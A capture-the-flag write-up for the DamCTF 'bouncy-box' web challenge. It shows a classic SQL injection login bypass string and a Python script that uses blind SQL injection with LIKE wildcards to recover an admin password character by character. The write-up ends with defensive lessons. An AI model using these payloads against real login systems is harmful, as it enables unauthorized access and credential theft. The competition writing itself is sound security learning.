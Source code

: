 ```yaml
---
layout: writeup
title: bouncy-box (web)
date: 2021-11-08
---
```

# Problem

We're given a URL to a website.  That's it, no source files here!

Let's see if we can hack it!

## Investigation
So the website is a weird jump-game which when we get a game-over prompts us to login to save our score.
 
Luckily, this prompt isn't sanitized so we can quickly SQL-inject our way past it with a classic "`' or 1=1 #`".
 
![image of login prompt](/assets/writeup_imgs/bouncybox.png)
 
Past this prompt we see another user interface listing the players, their login privileges and a button saying "get flag"--which then prompts them to login again, except this prompt isn't susceptible to SQL injection!  From the high score we can determine the username of the website admin "boxy_mcbounce" but we can't figure out their password!
 
Luckily, since the first prompt is susceptible to SQL injection, we can utilize the LIKE operator and SQL wildcard character % to determine the admin's password. It takes a while (about a minute or two) but eventually we get the admin's password and can access the flag!

# Solution
```python
# Blind injection
import string
import requests

pwd = ''
url = 'https://bouncy-box.chals.damctf.xyz/login'

i = 0
# string.printable[66] is wildcard %--so stop before getting there.
while i < 66:
  payload = f"boxy_mcbounce' and password like '{pwd+string.printable[i]}%' #;"
  jsonData = {'username': payload, 'password': '', 'score': 0}
  r = requests.post(url, json=jsonData)
  if (r.status_code == 200):
    pwd += string.printable[i]
    print("password so far is ", pwd)
    print(payload)
    i = 0
  else:
    print(string.printable[i], "failed, status:", r.status_code)
    i += 1

print(pwd)
```

# Conclusion & Lessons Learned:
A system is only as strong as its weakest link--or something like that.  Remember to sanitize your sql inputs, store passwords as hashes, and don't reinvent the wheel if you can help it.